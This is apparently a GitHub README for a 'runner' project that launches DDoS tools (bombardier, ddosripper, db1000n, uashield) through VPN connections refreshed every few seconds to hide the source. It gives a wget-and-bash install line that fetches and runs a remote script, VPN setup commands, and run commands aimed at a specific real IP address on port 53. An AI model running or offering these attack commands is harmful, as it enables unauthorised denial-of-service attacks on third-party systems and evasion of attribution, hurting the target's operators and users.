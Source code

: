 # Ubuntu runner
Script runs load under vpn and refreshes vpn every N seconds

Supports many VPN providers via https://github.com/qdm12/gluetun/wiki

# Install
```
wget https://raw.githubusercontent.com/ctukraine22/runner/master/install.sh && bash install.sh
```

# Init
```
/runner/init.sh user1 code1 expressvpn Country
/runner/init.sh %vpn-user% %vpn-pass% %vpn-type% "vpn-counties" %vpn-servers% %vpn-transport% %vpn-cret-repo%
```

# Run

```
/runner/run.sh bombardier 194.58.196.62 53 
/runner/run.sh ddosripper 194.58.196.62 53 
/runner/run.sh db1000n
/runner/run.sh uashield

```
- %vpn-type% here https://github.com/qdm12/gluetun/wiki
- %vpn-transport%: tcp/udp
- "vpn-counties" %vpn-servers%: different fore each vpn provider, see wiki
- %vpn-cret-repo%: git repository which contains cert files in folder named same as %vpn-type%

To use cyberhost you need fork this repo and replace key and crt: https://github.com/qdm12/gluetun/wiki/Cyberghost

# Supported tools
- db1000n
- checksites
- ddosripper
- uashield
- bombardier
- kali